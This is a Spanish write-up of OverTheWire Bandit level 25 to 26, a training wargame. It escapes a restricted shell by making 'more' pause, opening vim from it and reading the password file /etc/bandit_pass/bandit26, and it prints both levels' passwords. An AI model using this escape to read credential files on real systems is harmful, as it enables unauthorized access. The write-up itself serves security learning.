 # Bandit Level 25→ Level 26

# Objetivos
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

# Datos de acceso al nivel
```bach
bandit25
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
# Solución
```bash
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p
2220
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
|_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
Connection to localhost closed.
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level
26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh
export TERM=linux
exec more ~/text.txt
exit 0
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p
2220
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \

| |_) | (_| | | | | (_| | | |_ / /| (_) |
--More--(86%)
v
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
"~/text.txt" [readonly] 6L, 258B
:e /etc/bandit_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
~
~
~
~
"/etc/bandit_pass/bandit26" [readonly] 1L, 33B
:!q
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
Press ENTER or type command to continue
q
~
~
------------------------
Connection to localhost closed.
bandit25@bandit:~ exit


```


# Notas adicionales
|Comando|Descripcion|
|---|---|
|vim | Vim es  editor de texto utilizado en sistemas Unix y Linux. Se caracteriza por su alta configurabilidad y numerosas funcionalidades. Vim opera en una terminal de texto y ofrece modos para editar, navegar y realizar diversas acciones en archivos de texto.



# Referencias
